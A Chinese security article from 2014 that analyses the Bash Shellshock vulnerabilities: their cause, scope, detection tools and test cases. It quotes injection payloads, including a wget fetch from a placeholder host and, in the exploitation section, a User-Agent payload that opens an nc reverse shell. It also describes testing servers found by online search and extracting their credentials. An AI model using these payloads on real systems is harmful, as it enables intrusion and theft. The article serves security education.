# Shellshock 漏洞回顾与分析测试

2014/10/21 14:14 | [Debug_Orz](http://drops.wooyun.org/author/Debug_Orz "由 Debug_Orz 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者



## 0x00 漏洞概述

* * *

很多人或许对 2014 上半年发生的安全问题“心脏流血”（Heartbleed Bug）事件记忆颇深，2014 年 9 月，又出现了另外一个“毁灭级”的漏洞——Bash 软件安全漏洞。这个漏洞由法国 GNU/Linux 爱好者 Stéphane Chazelas 所发现。随后，美国电脑应急响应中心（US-CERT）、红帽以及多家从事安全的公司于周三（北京时间 2014 年 9 月 24 日）发出警告。

关于这个安全漏洞的细节可参看：CVE-2014-6271 和 CVE-2014-7169。

漏洞概况信息如下：

```
漏洞英文名称  Bash Shellshock
中文命名    破壳（X-CERT）
威胁响应等级  A 级
漏洞相关 CVE 编号   CVE-2014-6271
漏洞发现者   Stéphane Chazelas（法国）
漏洞发现事件  2014 年 9 月中旬
漏洞公布时间  9 月 25 日
漏洞影响对象  bash 1.14 至 bash 4.3 的 Linux/Unix 系统 
```

2014 年 9 月，UNIX、Linux 系统中广泛使用的 Bash 软件被曝出了一系列、已经存在数十年的漏洞（Bash 或 Shellshock），在业界引起了非常大的影响。

最初的 bug 已经修复了，但引发了人们对 Bash 的解析程序可能产生 0day 漏洞的关切，随后又挖掘出了第二个漏洞[CVE-2014-7169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169)，这个漏洞也在很快得到了修复。

不少 Linux 发行版本连夜发布了修复版本的 Bash，在服务器领域占有不少份额的大多数 FreeBSD 和 NetBSD 已经默认关闭了自动导入函数的功能，以应对未来可能出现的漏洞。

在这个漏洞的风波逐渐平息之余，不少业内人士也在思考，它为何波及如此之广，影响如此之大。

InfoWorld 的专栏作者 Andrew C. Oliver 在一篇文章中表达了自己看法，他认为 CGI 技术的普及是个错误，正是因为 CGI 技术的不合理之处，Shellshock 才有机可乘。

CGI 技术是 Web 技术刚兴起的时候发明的，它是最早的可以创建动态网页内容的技术之一。它会把一个 HTTP 请求转化为一次 shell 调用。

而 Shellshock 的原理是利用了 Bash 在导入环境变量函数时候的漏洞，启动 Bash 的时候，它不但会导入这个函数，而且也会把函数定义后面的命令执行。在有些 CGI 脚本的设计中，数据是通过环境变量来传递的，这样就给了数据提供者利用 Shellshock 漏洞的机会。

**0.1 Bash 介绍**

Bourne Again Shell（简称 BASH）是在 GNU/Linux 上最流行的 SHELL 实现，于 1980 年诞生，经过了几十年的进化从一个简单的终端命令行解释器演变成了和 GNU 系统深度整合的多功能接口。

根据维基百科的描述：Bash，Unix shell 的一种。1989 年发布第一个正式版本，原先是计划用在 GNU 操作系统上，但能运行于大多数类 Unix 系统的操作系统之上，包括 Linux 与 Mac OS X v10.4 都将它作为默认 shell。它也被移植到 Microsoft Windows 上的 Cygwin 与 MinGW，或是可以在 MS-DOS 上使用的 DJGPP 项目。在 Novell NetWare 与 Android 上也有移植。

**0.2 CGI 技术与脚本解析**

CGI (Common Gateway Interface)，是一种基于浏览器的输入，在 Web 服务器上运行程序的方法。

CGI 脚本让浏览器与用户产生交互，例如，信息评论，表单选择，数据库查询。

作为网页设计者，通常创建客户端的 CGI 脚本，服务器端的程序用来处理用户输入，结果返回给用户。

后台处理程序不仅仅可以用 PHP、Python、Perl 等脚本来接受请求、解释执行、响应客户端，当然还可以用 Bash 脚本来解释执行用户提交的 GET 或 POST 请求。

**0.3 Bash 漏洞与远程执行**

洞利用一般分为本地利用和远程执行利用。

该漏洞爆出后，一些研究人员最初认为该漏洞只是本地漏洞，所以无法很好地利用。

随着研究的深入，研究发现其实它可以进行远程利用。2014 年 9 月 24 日 Bash 被公布存在远程代码执行漏洞。

Bash 漏洞其实是非常经典的“注入式攻击”，也就是可以向 bash 注入一段命令，从 bash1.14 到 4.3 都存在这样的漏洞。

由于 Bash 存储远程执行漏洞，所以，理论上，可以在 HTTP 请求中注入一个 Bash 命令，进行远程执行，比如：

```
() { :;}; wget http://www.XXX.com/testvul.sh

```

对于利用 Bash 脚本处理用户请求的网站，攻击者可以精心伪造数据，通过网络传到一台服务器上，直接或间接触发一个 bash 脚本，这样就可以远程执行恶意代码。

由于 Bash 是一个被广泛集成的软件，几乎所有的系统都在运行，从 Rapsberry Pis 到手机，再到数据中心的服务器以及大型机等。

由于自动导入函数的功能至少从 Bash 3.0 开始就存在了，所以这个 bug 有可能在大多数系统中存在近 20 年了。

由于 Apache 服务器中使用`mod_cgi`（不包括`mod_php`或`mod_python`）运行脚本的时候，数据是通过环境变量来传递的，这可以算是互联网领域最古老的一些技术了。

其他一些客户端也会受到影响——比如 Linux 的 DHCP 客户端——它大量运用 Bash 脚本来使修改生效，这也使黑客能通过在 DHCP 数据包中加入恶意数据来达到攻击的目的。

鉴于 Bash 是大多数 Linux 系统（以及 OSX）上默认的 shell，这个漏洞就意味着，把有害数据编入环境变量，传到服务器端，触发服务器运行 Bash 脚本，就完成了攻击（`passing an poisoned environment variable through to a server running a CGI script could trivially be compromised`）。

举个例子，HTTP 协议的头 User-Agent 通常是通过环境变量`HTTP_USER_AGENT`来传递的，这意味使用以下命令就可以测试这个漏洞了：

```
curl -H 'User-Agent:() { :; }; echo -e "\r\nVul\r\n"' http://example.com/some-cgi/script.cgi

```

对于不传递`User-Agent`的服务器来说，常常还有其他受攻击的可能——比如`Cookie`，`Referer`或者请求本身。 另外，这个 bug 不仅仅影响 CGI 脚本和 Apache——如果其他程序也收到并传递了有害的环境变量（比如 ssh 服务会接收 TERM 或 DISPLAY 环境变量），然后这些进程再运行一个 Bash 脚本（或通过 system()调用来执行），同样的漏洞也会被利用。

和 HTTP 不同，SSH 一般不允许匿名请求——触发这个漏洞之前必须要登录——但是代码托管服务商们却允许匿名登录（哪怕只登录到一个权限受限的 shell），所以为了防止入侵，GitHub 更新了他们的企业级产品，Bitbucket 也更新了他们的服务器。

由于 Bash 漏洞能够远程执行，所以会产生像 struts2 等漏洞利用一样的效果，对攻击者而言，通常就是“拿站或拿服务器”，再去执行其他操作。

下面引用一张图，做个简单的形象说明。



## 0x01 漏洞原因分析

* * *

漏洞信息最早来源于国外知名漏洞网站 exploit-db 下的第 34765 篇漏洞报告，其中出现了一条验证命令：

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "

```

如果在一个含有版本号小于 bash 4.3 的 linux 或者 unix 系统，本地执行以上命令，可能会得到以下输出：

```
Vulnerable this is a test

```

其中如果出现第一行 vulnerable 则说明该系统存在一个由 bash 程序缺陷导致的任意命令执行漏洞。

Windows Cygwin Terminal 本地执行结果如下：



Kali 1.0.9-i386 本地执行结果如下：



CVE-2014-6271 中的 bug 修复后，问题马上就解决了，大多数厂商都及时提供了修复后的 Bash 版本。面向互联网的服务器没有理由不马上修复它，因为这个漏洞会使主机完全落入别人的控制（以 Apache 所使用的用户身份）中。 但是，大家的目光已经聚焦在这个领域，新的 bug 被发现了。同时使用 Bash 的 shell 重定向功能和函数自动导入功能，CVE-2014-7169 出现了。这回导致的结果是可以随意读写远程机器上的文件，使用的手段和上次一样，只不过这次是利用了 shell 的重定向符号<或>。

```
env CVE_2014_7169='() { (a)=>\' bash -c "echo date"; cat echo

```

这次解析器先停在=号上（由于(a)=不是一个有效的 Bash 表达式），但至关重要的是把<号留在了解析管道中。接下来的转义符\会使解析器在重定向命令之间插入一些空格（但无关紧要），最终导致了后面的命令变成了一条重定向命令：

```
>echo data

```

这是一条有效的 Bash 命令，语义上它等价于下面这种更常见的形式：

```
date >echo

```

注意，另外一个重定向符号<在这里也是有效的，它可以把输入重定向到文件。 所以这个 bug 也被修复了。

当然，有能力设置任何环境变量，可以使攻击者控制一切东西——修改 IFS 环境变量（过去被利用过的一个漏洞），甚至修改 PATH 环境变量，会影响新启动的 shell 脚本的行为，无论如何这些手段都会导致问题。但至少前面提到的 SSH 和 CGI 攻击中，涉及的环境变量要么是有限几个（TERM、DISPLAY 等），要么是以某个前缀`（HTTP_USER_AGENT、HTTP_REFERRER）`开头的。所以除了前缀名所代表的程序外，其他的程序受影响有限。

有些人预计 Bash 自动导入函数的功能还存在安全漏洞，担心未来还会有 bug 曝出。NetBSD 在 Bash 中默认关闭了自动导入函数的功能，FreeBSD 也这么做了，转而以新增选项（ `--import-functions`）的方式提供这个功能。

**1.1 正常执行过程分析**

我们先来看一下这个安全问题的症状。这个问题的发生是因为 Bash 的一个功能，它允许在 Bash 的 shell 中使用环境变量来定义函数。函数的作用是把经常调用的代码封装起来，然后在其他地方复用，所有的 shell 脚本语言都有这个功能。Bash 中函数的定义是这样的（大多数其他 shell 也是）：

```
function hello {
 echo "Hello"
}
hello    # 调用这个函数

```

但是，Bash 还有一种使用环境变量来定义函数的方法，这是它独有的。

如果环境变量的值以字符“() {”开头，那么这个变量就会被当作是一个导入函数的定义（Export），这种定义只有在 shell 启动的时候才生效。

```
$ export HELLO="() { echo 'Hello'; }"
$ HELLO
-bash: HELLO: command not found
$ bash
$ HELLO
Hello

```

上述语句在 Cygwin Terminal 环境下的测试结果如下。


使用下面语句定义后，查看环境变量，可以发现刚才定义的值

```
export X='() { echo "inside X"; }; echo "outside X";'

```



下面对 Bash 独特的定义方式进行测试，因为这种独特的方法只会在 shell 启动的时候生效，所以大多数用来演示这个漏洞的示例代码都只有一行：

```
env HELLO="() { echo 'Hello'; }" bash -c HELLO

```

这行代码的作用跟下面分步执行的语句，在效果上是一样的。



env 命令代表“先设置下面的环境变量，再运行下面的程序”，并且执行完成后当前的环境变量不受影响。实际上，直接写成

```
env HELLO="() { echo 'Hello'; }" bash -c HELLO

```

也可以。

bash 命令指定了`-c`选项是为了启动 bash 时就执行 HELLO 函数，这里必须新起一个 bash，因为只有 bash 启动的时候才会去解析函数的定义。

正常的函数定义和执行如下

```
env HELLO="() { echo 'Hello'; }" bash -c HELLO

```



**1.2 异常执行过程分析**

通过上述对 bash 执行过程分析，可知 bash 在处理含有函数定义诸如"`() { :; }`"的环境变量赋值的代码上存在设计缺陷，错误地将函数定义后面的字符串作为命令执行。

所以真正的利用与 env 命令无关，只要设法让系统接受一个含有"[函数定义]+[任意命令]"的环境变量赋值则可触发" [任意命令] "部分所表示的代码执行。

恶意命令被添加在合法环境变量之后，Bash 会首先运行恶意命令，异常执行结构图示如下：



Shellshock command diagram (Symantec)

异常方式，如果注入如下代码（需要注意的是此例中函数定义使用的是单引号，函数体内容为空，函数体后有 echo 语句）。

```
env VAR='() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"

```

上述输入向环境变量中注入了一段代码 echo Bash is vulnerable。

打个比方，本来正常要执行的是“牛 A”和“牛 C”，结果中间的“牛 B”被执行了



Bash 漏洞在于函数体外面的代码被默认地执行了，执行结果如下所示。



问题出现在 bash 解析完函数定义，执行函数的时候，它自动导入函数的解析器越过了函数定义的结尾，接着执行后面的代码，并且由于每一个新的 bash 启动时都会触发这个漏洞，相当于任意代码都能被执行了。

有漏洞的系统还会把“`Bash is vulnerable`”打出来，在修复后的系统中，上面命令的结果应该只打印“Hello”，而不会执行其他的语句。

**1.3 源码级分析**

由于网上已经有相关分析文章，具体请参考如下链接：

*   [`blog.erratasec.com/2014/09/the-shockingly-bad-code-of-bash.html#.VEW-R_mUeE0`](http://blog.erratasec.com/2014/09/the-shockingly-bad-code-of-bash.html#.VEW-R_mUeE0)
*   [`neilscomputerblog.blogspot.com/2014/09/shellshock-vulnerability-patch-and.html`](http://neilscomputerblog.blogspot.com/2014/09/shellshock-vulnerability-patch-and.html)
*   [`blog.csdn.net/u011721501/article/details/39558303`](http://blog.csdn.net/u011721501/article/details/39558303)
*   [`blog.knownsec.com/2014/09/bash_3-0-4-3-command-exec-analysis/`](http://blog.knownsec.com/2014/09/bash_3-0-4-3-command-exec-analysis/)
*   [`www.antiy.com/response/CVE-2014-6271.html`](http://www.antiy.com/response/CVE-2014-6271.html)
*   [`www.freebuf.com/articles/web/45520.html`](http://www.freebuf.com/articles/web/45520.html)

期待更多大神级源码深入分析。

## 0x02 影响范围分析

* * *

对于存在 Bash 漏洞系统而言，由于它允许未经授权的远程用户可以指定 Bash 环境变量，那么运行这些服务或应用程序的系统，就存在漏洞被利用的可能。

只要是能通过某种手段为 bash 传递环境变量的程序都受此影响。当然最典型的的就是 bash 写的 CGI 程序了，客户端通过在请求字符串里加入构造的值，就可以轻松攻击运行 CGI 的服务器。

目前大多数的网站很少用 CGI 了，所以问题不算太大。但是有很多的网络设备，如路由器、交换机等都使用了 Perl 或者其他语言编写的 CGI 程序，只要是底层调用了 bash，那么就爱存在风险。

任何已知程序，只要满足以下两个条件就可以被用来通过 bash 漏洞导致任意命令执行：

1、程序在某一时刻使用 bash 作为脚本解释器处理环境变量赋值； 2、环境变量赋值字符串的提交取决于用户输入。

目前，可能被利用的系统包括：

*   运行 CGI 脚本（通过 mod_cgi 和 mod_cgid）的 Apache HTTP 服务器；
*   某些 DHCP 客户端；
*   使用 Bash 的各种网络服务；
*   使用 ForceCommand 功能的 OpenSSH 服务器；
*   使用 CGI 作为网络接口的基于 Linux 的路由器；
*   使用 Bash 的各种嵌入式设备。
*   ……

## 0x03 漏洞验证测试

* * *

**3.1 不同工具测试比较**

不同工具测试同一地址。

工具 1 利用 Crow Strike ShellShock Scanner 测试 Bash 漏洞，该工具可以批量扫描，测试某网站结果如下：



为了分析该工具的测试字符，利用 Wireshark 抓包，发现该工具主要测试了 3 个字段 Test、Cookie、Referer，抓包结果如下：



工具 2



工具 3



**3.2 本地测试**



本地构造不同的 POC，进行 Bash 漏洞测试，如果我们打开 Cygwin Terminal，使用不同的测试用例，进行测试，在 Cygwin Terminal 下的测试结果如下：



**3.3 远程测试**

选取网上搜索到的目标，对其进行 Bash 漏洞测试，使用工具 curl。

测试命令如下：

```
curl -H 'User-Agent:() { :; }; echo -e "\r\nVul\r\n"'  http://XXX:8080/cgi-bin/XXX.cgi

```

测试截图如下：



在 http 协议中构造`Referer`、`Cookie`、`User-Agent`字段命令，使用 Burpsuit，发送到存在 Bash 漏洞的服务器，会返回 3 个 Vul 字符，说明 3 个字段传递的参数都被服务器后端脚本解析处理，测试结果如下：



构造其他 Poc，获取服务器用户名和密码。



## 0x04 漏洞利用测试

* * *

在本地搭建有 Bash 漏洞的服务器，利用浏览器访问 CGI 页面，显示正常访问。



用 Burpsuit 进行拦截，初始时`intercept is off`。



用 Burpsuit 进行拦截，打开`intercept is on`。



修改 http 协议中的 User-Agent 字段为

```
() { :; }; /bin/bash -c "nc 192.168.175.142 4444 -e /bin/bash -i"

```



发送 http 请求后，nc 反弹，可以查看用户名、目录、系统版本等信息。



## 0x05 参考文献

* * *

> 1) http://www.freebuf.com/vuls/44994.html
> 
> 2) http://www.freebuf.com/news/44768.html
> 
> 3) http://www.freebuf.com/news/45436.html
> 
> 4) http://blog.csdn.net/u011721501/article/details/39558303
> 
> 5) http://www.srxh1314.com/bash-cgi-bin.html
> 
> 6) http://www.linuxidc.com/Linux/2014-09/107250.htm
> 
> 7) http://www.freebuf.com/tools/45311.html
> 
> 8) http://www.timlaytoncybersecurity.com/2014/09/30/shellshock-bash-code-injection-vulnerability- overview-info/
> 
> 9) http://blog.sucuri.net/2014/09/bash-vulnerability-shell-shock-thousands-of-cpanel-sites-are-high- risk.html
> 
> 10) http://blog.erratasec.com/2014/09/the-shockingly-bad-code-of-bash.html#.VEW-R_mUeE0
> 
> 11) http://blog.cloudflare.com/inside-shellshock/
> 
> 12) http://www.zenghui123.com/2014-10/linux-bash-vulnerability-ShellShock/
> 
> 13) http://it.slashdot.org/story/14/09/29/024239/bash-to-require-further-patching-as-more-shellshock- holes-found
> 
> 14) http://www.itnews.com.au/News/396256,further-flaws-render-shellshock-patch-ineffective.aspx
> 
> 15) http://www.antiy.com/response/CVE-2014-6271.html
> 
> 16) http://www.antiy.com/response/The_Association_Threat_Evolution_of_Bash_and_the_Current_Status_of_Malware_in_UNIX-like_Systems.html
> 
> 17) http://blog.knownsec.com/2014/10/shellshock_response_profile_v4/#more-1559
> 
> 18) http://blog.csdn.net/delphiwcdj/article/details/18048757
> 
> 19) http://drops.wooyun.org/papers/3064
> 
> 20) http://fish.ijinshan.com/cgibincheck/check
> 
> 21) https://access.redhat.com/articles/1200223
> 
> 22) http://www.antiy.com/response/CVE-2014-6271.html
> 
> 23) http://lcamtuf.blogspot.fr/2014/09/quick-notes-about-bash-bug-its-impact.html
> 
> 24) http://www.troyhunt.com/2014/09/everything-you-need-to-know-about.html
> 
> 25) http://mashable.com/2014/09/26/what-is-shellshock/
> 
> 26) http://www.businessinsider.com/bash-shell-bug-explained-2014-9
> 
> 27) http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html#.VD5bk2SUeE0
> 
> 28) http://blog.erratasec.com/2014/09/bash-shellshock-bug-is-wormable.html#.VD5bymSUeE1
> 
> 29) http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring- internet/
> 
> 30) http://unix.stackexchange.com/questions/157329/what-does-env-x-command-bash-do-and-why-is-it- insecure
> 
> 31) http://askubuntu.com/questions/529511/explanation-of-the-command-to-check-shellshock
> 
> 32) http://digg.com/video/the-shellshock-bug-explained-in-about-four-minutes
> 
> 33) http://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
> 
> 34) http://brandonpotter.wordpress.com/2014/09/30/some-stats-from-shellshock-test-tool-analysis/
> 
> 35) http://coolshell.cn/articles/11973.html
> 
> 36) http://www.infoq.com/cn/news/2014/10/shellshock
> 
> 37) http://www.infoq.com/news/2014/09/shellshock
> 
> 38) http://www.freebuf.com/articles/web/45520.html
> 
> 39) http://blog.sucuri.net/2014/09/bash-shellshocker-attacks-increase-in-the-wild-day-1.html
> 
> 40) http://mobile.itnews.com.au/News/396197，first-shellshock-botnet-attacks-akamai-us-dod- networks.aspx
> 
> 41) http://securityaffairs.co/wordpress/29070/malware/mayhem-shellshock-attacks-worldwide.html
> 
> 42) http://www.carmelowalsh.com/2014/09/wopbot-botnet/
> 
> 43) http://blog.malwaremustdie.org/2014/10/mmd-0029-2015-warning-of-mayhem.html
> 
> 44) http://www.incapsula.com/blog/shellshock-bash-vulnerability-aftermath.html
> 
> 45) https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the- shellshock-bash-vulnerability
> 
> 46) https://github.com/gry/shellshock-scanner
> 
> 47) http://www.tripwire.com/state-of-security/vulnerability-management/how-to-detect-the-shellshock- bash-bug-on-your-internal-network/
> 
> 48) https://community.qualys.com/blogs/securitylabs/2014/09/25/shellshock-is-your-webserver-under- attack
> 
> 49) https://community.qualys.com/blogs/qualys-tech/2014/10/02/using-qualys-was-scan-to-detect- shellshock-vulnerability
> 
> 50) http://samiux.blogspot.com/2014/09/exploit-shellshock-proof-of-concept.html
> 
> 51) http://oleaass.com/shellshock-proof-of-concept-reverse-shell/
> 
> 52) http://milankragujevic.com/projects/shellshock/
> 
> 53) http://milankragujevic.com/post/64
> 
> 54) http://breizh-entropy.org/~nameless/random/posts/shellshock_shits_got_real/
> 
> 55) http://www.tripwire.com/state-of-security/vulnerability-management/how-to-detect-the-shellshock- bash-bug-on-your-internal-network/
> 
> 56) https://github.com/gry/shellshock-scanner
> 
> 57) http://blog.crowdstrike.com/crowdstrike-shellshock-scanner/
> 
> 58) http://businessinsights.bitdefender.com/shellshock-bashbug
> 
> 59) http://www.csoonline.com/article/2689216/vulnerabilities/apple-publishes-patch-for-shellshock- vulnerability.html
> 
> 60) http://alblue.bandlem.com/2014/09/bash-remote-vulnerability.html
> 
> 61) https://shellshocker.net/
> 
> 62) https://github.com/mubix/shellshocker-pocs
> 
> 63) http://oleaass.com/shellshock-proof-of-concept-reverse-shell/
> 
> 64) http://www.freebuf.com/articles/system/45390.html
> 
> 65) http://blog.knownsec.com/2014/10/shellshock_response_profile_v4/#more-1559
> 
> 66) http://it.deepinmind.com/%E5%85%B6%E5%AE%83/2014/09/26/everything-you-need-to-know-about- shellshock.html
> 
> 67) http://www.securitysift.com/the-search-for-shellshock/
> 
> 68) http://blog.cloudflare.com/inside-shellshock/
> 
> 69) http://blog.regehr.org/archives/1187
> 
> 70) https://github.com/mubix/shellshocker-pocs
> 
> 71) http://pastebin.com/mG1grQwK
> 
> 72) http://www.cyactive.com/shellshock-blasts-supermassive-black-hole-heart-cyber-space/

版权声明：未经授权禁止转载 [Debug_Orz](http://drops.wooyun.org/author/Debug_Orz "由 Debug_Orz 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [CVE-2014-6271 资料汇总](http://drops.wooyun.org/papers/3064)
*   [DNS 泛解析与内容投毒，XSS 漏洞以及证书验证的那些事](http://drops.wooyun.org/tips/1354)
*   [One git command may cause you hacked(CVE-2014-9390)](http://drops.wooyun.org/papers/4386)
*   [linux 渗透测试技巧 2 则](http://drops.wooyun.org/papers/1015)
*   [Memcache 安全配置](http://drops.wooyun.org/papers/865)
*   [一种自动化检测 Flash 中 XSS 方法的探讨](http://drops.wooyun.org/tips/1985)